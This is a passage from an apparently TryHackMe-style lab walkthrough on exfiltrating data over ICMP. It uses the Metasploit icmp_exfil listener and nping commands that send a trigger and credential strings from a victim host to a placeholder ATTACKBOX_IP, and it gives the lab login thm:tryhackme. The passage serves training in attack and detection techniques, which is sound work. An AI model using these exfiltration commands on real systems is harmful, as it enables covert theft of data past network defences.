 ```bash
🔴🟢🟡                        #Set the interface in MSF
msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0
INTERFACE => eth0
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
```
  
We prepared `icmp.thm.com` as a victim machine to complete the ICMP task with the required tools. From the JumpBox, log in to the `icmp.thm.com` using `thm:tryhackme` credentials.

We have preinstalled the **`nping`** tool, an open-source tool for network packet generation, response analysis, and response time measurement. The NPING tool is part of the NMAP suite tools. [Link here](https://nmap.org/nping/) or visit: https://nmap.org/nping/

First, we will send the **`BOF trigger`** from the ICMP machine so that the Metasploit framework starts writing to the disk. 

```bash
🔴🟢🟡                        #Sending the Trigger Value from the Victim
thm@jump-box$ ssh thm@icmp.thm.com
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0369s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=7785 seq=1] IP [ttl=64 id=40595 iplen=39 ]
RCVD (0.0376s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=63 id=12656 iplen=39 ]
RCVD (0.0755s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=31 id=60759 iplen=32 ]
    
Max rtt: 38.577ms | Min rtt: 0.636ms | Avg rtt: 19.606ms
Raw packets sent: 1 (39B) | Rcvd: 2 (71B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds
```

We sent one ICMP packet using the **`nping`*** command with **`--data-string`** argument. We specify the trigger value with the file name **`BOFfile.txt`**, set by default in the Metasploit framework. This could be changed from Metasploit if needed!  

Now check the AttackBox terminal. If everything is set correctly, the Metasploit framework should identify the trigger value and wait for the data to be written to disk. 

Let's start sending the required data and the end of the file trigger value from the ICMP machine.

```bash
🔴🟢🟡                        #Sending the Data and the End of the File Trigger Value
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0312s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=14633 seq=1] IP [ttl=64 id=13497 iplen=42 ]
RCVD (0.0328s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=63 id=17031 iplen=42 ]
RCVD (0.0703s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=31 id=41138 iplen=30 ]
    
Max rtt: 39.127ms | Min rtt: 1.589ms | Avg rtt: 20.358ms
Raw packets sent: 1 (42B) | Rcvd: 2 (72B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin2:password2"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0354s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=39051 seq=1] IP [ttl=64 id=32661 iplen=44 ]
```